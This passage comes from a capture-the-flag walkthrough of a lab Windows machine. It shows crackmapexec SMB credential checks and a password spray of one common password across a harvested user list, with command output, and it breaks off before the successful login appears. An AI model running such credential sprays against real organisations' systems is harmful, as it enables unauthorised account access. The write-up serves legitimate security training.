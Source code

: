 I'll use `crackmapexec` as an easy way to check credentials against SMB.

First I try as marco, but it doesn't work:



    root@kali# crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marco:Welcome123! STATUS_LOGON_FAILURE 



I tried connecting with
[EvilWinRM](https://github.com/Hackplayers/evil-winrm) as well, but no
luck.

#### Password Spray

Password spraying is similar to a password brute force, except you only
try one (or a few common passwords) across a lot of users. The benefit
to the attacker is that you don't risk locking out any single account,
and in a case where you only need a foothold, it's very common in a
large organization to find at least one user using a really bad
guessable password.

I grabbed the list of users from `rpcclient`, and dropped them into a
file. Then I ran `crackmapexec` using that list as the user input. It
found a user still using `Welcome123!`:



    root@kali# crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE 